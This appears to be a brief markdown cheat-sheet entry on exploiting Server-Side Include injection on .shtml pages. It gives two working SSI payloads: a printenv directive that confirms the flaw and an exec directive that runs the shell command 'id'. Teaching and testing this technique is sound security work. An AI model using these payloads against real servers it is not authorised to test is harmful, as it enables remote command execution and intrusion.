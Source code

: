 # Exploiting SSI Injection
***
### Exploitation
#### For instance, a form that after submitting , redirect us to  `/page.shtml`
#### Based on the file extension we conclude that the page supports SSI.
#### To confirm we can try the following directive:
```ssi
<!--#printenv -->
```


#### Then we can try to run arbitrary commands using the **exec** directive:
```ssi
<!--#exec cmd="id" -->
```

